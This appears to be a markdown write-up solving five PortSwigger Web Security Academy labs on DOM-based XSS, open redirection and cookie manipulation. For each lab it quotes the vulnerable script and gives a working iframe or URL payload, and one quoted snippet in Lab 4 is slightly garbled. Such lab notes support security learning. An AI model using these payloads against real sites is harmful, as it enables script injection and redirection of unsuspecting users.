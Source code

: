 # DOM-based vulnerabilities

Get details at [here](https://portswigger.net/web-security/dom-based)

---

[Lab 1](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages): DOM XSS using web messages

Description of this lab: construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function triggered by web messaging

Check the source code, we can see this website has `addEventListener` function for listening to event

```js
    <script>
        window.addEventListener('message', function(e) {
            document.getElementById('ads').innerHTML = e.data;
        })
    </script>             
```             

Using this script for exploit server, to send message including `iframe` to website, and it will be executed when website load error, and solved the lab 

`<iframe src="https://0ace002803d991c3c25ff81400bb00af.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

[Lab 2](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url): DOM XSS using web messages and a JavaScript URL

Description of this lab: demonstrates a DOM-based redirection vulnerability that is triggered by web messaging

Check the source code, we can see this website has `addEventListener`, `location.href` function for listening to event, 

```js
   <script>
        window.addEventListener('message', function(e) {
            var url = e.data;
            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                location.href = url;
            }
        }, false);
    </script>              
```
Using this script for exploit server, and solved the lab.

`<iframe src="https://0a52008a03c68061c212a75100ec00e5.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`


[Lab 3](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse): DOM XSS using web messages and json parse

Description of this lab: construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function

Check the code, and we have this script for listening to event

```js
    <script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
                    </script>
```

Using this script for body exploit server, click to store and deliver to victim button, then solved the lab.

```html
    <iframe src=https://0a0a00c40438df56c0ea1539003800f9.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

[Lab 4](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection): DOM-based open redirection

Description of this lab: exploit this vulnerability and redirect the victim to the exploit server

In this website, there is back button for redirect to home page using function `location.href`, and we can see the code

```html
    <a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```

Using this URL to exploit: `https://0a52008a03c68061c212a75100ec00e5.web-security-academy.net/post?postId=1&url=https://0a9600e8031e8046c2bda67801c40046.exploit-server.net/`

[Lab 5](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation): DOM-based cookie manipulation

Description of this lab: exploit server to direct the victim to the correct pages with injecting a cookie that will cause XSS on a different page and call the print() function

Go to any post and check the code, we can see it has this script for remember last viewed product:

```js
    <script>
        document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
    </script>
```
Using this script for exploit server, `onload` event handler makes victim is redirected to the main page, unaware that this manipulation ever took place. While the victim's browser has the poisoned cookie saved, loading the main page will cause the payload to execute and call the print() function

```html
    <iframe src="https://0aa9003a03f3fdb3c0fc0d8400090025.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0aa9003a03f3fdb3c0fc0d8400090025.web-security-academy.net';window.x=1;">
```
